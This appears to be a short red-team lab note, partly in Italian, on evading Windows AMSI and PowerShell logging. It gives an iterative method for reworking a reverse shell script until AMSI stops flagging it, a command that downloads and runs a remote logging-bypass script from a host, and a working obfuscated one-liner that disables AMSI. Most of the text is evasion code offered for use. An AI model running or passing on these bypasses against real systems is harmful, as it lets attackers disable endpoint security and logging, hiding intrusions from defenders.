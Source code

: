 _AMSI Trigger_ 
[RythmStick/AMSITrigger: The Hunt for Malicious Strings (github.com)](https://github.com/RythmStick/AMSITrigger)

```
AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1
```

_INVOKE OBFUSCATION_
[danielbohannon/Invoke-Obfuscation: PowerShell Obfuscator (github.com)](https://github.com/danielbohannon/Invoke-Obfuscation)

---

**PER BYPASSARE L'AMSI**

1. Scan usando AMSITrigger
2. Modifica la porzione di codice cioccata
3. Rescan con AMSITrigger
4. Ripeti step 2 e 3 finchè non ottieni ==AMSI_RESULT_NOT_DETECTED== o ==BLANK==

or 


First bypass the Enhanced Script Block Logging on the reverse shell
```powershell
iex (iwr http://172.16.99.115/sbloggingbypass.txt -UseBasicParsing)
```
To bypass the AMSI
```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```